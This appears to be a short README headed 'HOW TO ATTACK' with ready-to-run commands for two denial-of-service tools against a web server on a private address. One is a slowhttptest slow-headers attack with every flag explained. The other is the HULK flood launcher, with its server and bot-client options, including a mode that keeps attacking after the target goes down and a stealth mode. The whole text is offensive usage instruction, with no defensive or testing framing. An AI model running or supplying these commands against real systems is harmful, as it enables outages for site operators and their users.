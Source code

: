 # HOW TO ATTACK

## slowhttptest
slowhttptest -H -g -c 5260 -i 10 -r 30 -t GET -u http://10.100.0.2:3000/ -x 24 -p 3

    -H: Enable slow headers attack
    -g: Generate headers randomly
    -c 5260: Number of connections to create
    -i 10: Interval between follow-up data in seconds
    -r 30: Number of requests per connection
    -t GET: HTTP method to use (GET in this case)
    -u http://10.100.0.2:3000/: Target URL to attack
    -x 24: Number of simultaneous connections
    -p 3: Number of child processes to fork

## hulk
python3 hulk_launcher.py server -p 3000 http://100.10.0.2:3000

python3 hulk_launcher.py server [-h] [-p PORT] [-m MAX_MISSILES] [--persistent] [--gui] target

### Server :computer:
usage: hulk_launcher.py server [-h] [-p PORT] [-m MAX_MISSILES] [--persistent] [--gui] target

The Hulk Server Launcher

positional arguments:
target                the target url.

options:
-h, --help            show this help message
-p PORT, --port PORT  the Port to bind the server to.
-m MAX_MISSILES, --max_missiles MAX_MISSILES the maximum number of missiles to connect to.
--persistent          keep attacking even after target goes down.
--gui                 run on the GUI mode.


### Client :space_invader:
usage: hulk_launcher.py client [-h] [-r ROOT_IP] [-p ROOT_PORT] [-n NUM_PROCESSES] [-s]

The Hulk Bot Launcher

options:
-h, --help            show this help message
-r ROOT_IP, --root_ip ROOT_IP                        IPv4 Address where Hulk Server is running.
-p ROOT_PORT, --root_port ROOT_PORT                  Port where Hulk Server is running.
-n NUM_PROCESSES, --num_processes NUM_PROCESSES      Number of Processes to launch.
-s, --stealth         Stealth mode.
```


